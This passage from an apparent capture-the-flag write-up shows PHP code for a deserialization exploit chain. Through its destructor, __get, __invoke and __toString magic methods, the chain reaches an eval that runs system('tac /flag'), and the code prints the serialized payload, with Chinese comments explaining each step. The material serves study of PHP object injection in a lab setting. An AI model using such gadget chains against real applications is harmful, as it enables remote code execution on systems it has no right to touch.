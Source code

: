 ```php
        $this->word = $a;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

//if ($_POST['nature']) {
//    $nature = unserialize($_POST['nature']);
//}

$nature = new Nature();
$sea = new Sea();
$shark = new Shark();
$sink = new Sink();


$sea->animal = $shark;
$nature->sea = $sea;

$shark->setword($sink);
echo 'nature='.urlencode(serialize($nature));
```

**方法二：**

```python
<?php
class Sink
{
    private $cmd = 'system("tac /flag");';
    public function __toString() // 当对象被当做字符串时自动调用（找echo $this->a这种、strtolower()等）
    {
        eval($this->cmd);  // 1 system("ls");
    }
}
 
class Shark
{
    private $word;
    public function __invoke()  // 对象被当做函数进行调用时触发（找有括号的类似$a()这种）
    {
        echo 'Shark says: ' . $this->word;  // 2 Sink
    }
}
 
class Sea
```